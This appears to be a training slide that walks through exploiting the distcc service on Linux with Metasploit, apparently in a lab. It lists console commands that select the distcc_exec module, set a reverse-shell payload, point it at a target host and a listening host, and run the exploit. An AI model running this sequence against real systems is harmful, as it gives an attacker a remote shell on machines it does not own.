

# MEtasploit
Linux Exploitation Example

search distcc
use unix/misc/distcc_exec
show payloads
set payload cmd/unix/reverse
show options
set rhost 192.168.20.23
set lhost 192.168.20.102
Exploit